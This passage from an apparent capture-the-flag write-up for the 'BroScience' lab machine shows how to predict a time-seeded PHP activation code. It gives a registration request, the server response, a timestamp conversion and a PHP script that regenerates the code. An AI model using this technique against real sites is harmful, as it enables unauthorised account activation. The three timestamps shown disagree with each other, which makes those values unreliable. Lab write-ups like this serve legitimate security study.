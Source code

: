 Payload:

```bash
POST /register.php HTTP/1.1
Host: broscience.htb
Cookie: PHPSESSID=f6jqcu5fr9is7ninkdibbm621r
Content-Length: 79
Connection: close

username=ka&email=kash%40kash.com&password=kashmir54&password-confirm=kashmir54
```

Response (focus on the date returned by the server):

```bash
HTTP/1.1 200 OK
Date: Wed, 22 Feb 2023 18:33:56 GMT
Server: Apache/2.4.54 (Debian)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 2433
Connection: close
Content-Type: text/html; charset=UTF-8


<html>
    <head>
        <title>BroScience : Register</title>
        ....
       	<div uk-alert class="uk-alert-success">
			<a class="uk-alert-close" uk-close></a>
			Account created. Please check your email for the activation link.
		</div>
```

Convert the date to epoch unix timestamp

```
Date: Fri, 24 Feb 2023 22:37:30 GMT
To epoch unix timestamp:
1677278250
```

Now, using the following code, get the activation code:

```php
<?php
function generate_activation_code($tmp) {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand($tmp);
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}

echo generate_activation_code("1677060957");
?>
```
